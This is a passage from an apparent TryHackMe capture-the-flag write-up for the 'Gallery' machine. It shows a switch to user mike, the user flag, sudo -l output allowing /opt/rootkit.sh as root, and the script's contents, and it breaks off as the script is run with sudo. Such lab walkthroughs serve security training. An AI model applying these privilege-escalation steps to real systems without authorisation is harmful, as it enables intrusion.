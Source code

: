 we change users to mike

/home/mike/user.txt

```
THM{af05cd30bfed67849befd546ef}
```

### Root

checking for sudo privileges, we are immediately drawn to /opt/rootkit.sh

```
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password: 
mike@gallery:/var/backups/mike_home_backup$ whoami
mike
mike@gallery:/var/backups/mike_home_backup$ uname -a
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
mike@gallery:/var/backups/mike_home_backup$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

/opt/rootkit.sh

```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

we cannot edit it, but we can run it with sudo permissions

```
sudo /bin/bash /opt/rootkit.sh
```
